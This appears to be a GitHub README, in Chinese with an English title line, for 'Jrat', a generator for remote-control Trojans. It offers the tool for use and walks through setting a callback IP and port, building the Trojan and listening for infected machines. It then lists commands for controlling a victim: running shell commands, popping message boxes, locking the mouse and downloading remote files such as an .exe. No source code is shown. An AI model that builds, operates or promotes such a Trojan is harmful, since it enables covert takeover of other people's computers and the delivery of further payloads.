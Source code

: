 #&nbsp;Jrat
Jrat&nbsp;is&nbsp;a&nbsp;remote&nbsp;control&nbsp;Trojan&nbsp;horse&nbsp;generator.<br>
使用方法：<br>
在“Jrat>>”阶段可用的命令有：lhost（上线IP），lport（上线端口），port（监听端口），save（生成木马），run（开始监听）<br>
例如：Jrat>>&nbsp;lhost&nbsp;127.0.0.1&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;lport&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;port&nbsp;8808&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;save&nbsp;&nbsp;&nbsp;&nbsp;Jrat>>&nbsp;run<br>
以上步骤是生成一个连接到127.0.0.1，端口为8808的木马，然后开始监听8808端口并等待木马上线<br>
木马上线后，程序来到第二阶段“Command>>”阶段，此阶段中可用的命令有：shell+cmd命令，msgbox+提示信息，clip+true/false（锁定/解锁鼠标），download+link+name（远程下载文件）<br>
例如：Command>>&nbsp;shell&nbsp;start&nbsp;C:&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;msgbox&nbsp;Hello&nbsp;World!&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;clip&nbsp;true&nbsp;&nbsp;&nbsp;&nbsp;Command>>&nbsp;download&nbsp;http://baidu.com/1.exe &nbsp; 1.exe<br>
上述命令时，先打开C盘，然后弹出一个对话窗口，显示“Hello&nbsp;World!”，接着鼠标被锁住，最后远程下载一个链接为“http://baidu.com/1.exe” 的文件<br>
